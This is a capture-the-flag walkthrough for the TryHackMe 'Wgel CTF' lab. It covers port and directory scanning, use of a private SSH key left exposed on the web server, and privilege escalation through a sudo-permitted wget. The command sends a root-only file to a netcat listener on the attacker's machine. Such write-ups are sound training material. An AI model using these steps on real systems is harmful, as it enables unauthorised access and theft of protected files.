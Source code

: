 # [Wgel CTF](https://tryhackme.com/room/wgelctf)

## Can you exfiltrate the root flag?

# Wgel CTF

## Have fun with this easy box.

### User flag

1. First, identify open ports and running services

```bash
nmap IP
```

[SCREEN01]

2. When visiting the web server at `http://<TARGET_IP>:80`, we find a default Apache2 welcome page. However, examining the HTML source code reveals comment containing the name **"Jessie"**

[SCREEN02]

3. Scan for hidden directories on the web server
   - We found `/sitemap` directory

[SCREEN03]

```bash
gobuster dir -u http://IP -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,js
```

4. Scan newly discovered directory `/sitemap`
   - This reveals `.ssh` directory

```bash
gobuster dir -u http://IP/sitemap -w /root/Tools/wordlists/SecLists/Discovery/Web-Content/common.txt
```

[SCREEN05]

5. Navigating to `http://<TARGET_IP>/sitemap/.ssh/id_rsa`, we find an exposed private SSH key
   - Set appropriate permissions for the SSH key

```bash
chmod 600 id_rsa
```

6. Access SSH using the previously discovered username **Jessie** and the SSH key to locate the user flag

```bash
ssh -i id_rsa jessie@IP
cd Documents/
cat user_flag.txt
```

[SCREEN06]

### Root flag

1. Check what commands the current user can execute with sudo privileges

```bash
sudo -l
```

[SCREEN07]

2. Since `wget` can be executed with root privileges, we can use it to read files that only root has access to and exfiltrate them to our attack machine
   - Start a listener on attack machine
   - On the target machine, use wget with sudo to POST the contents of the root flag to listener

```bash
nc -lvnp 4444
```

```bash
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://IP:4444
```

[SCREEN08]
[SCREEN09]
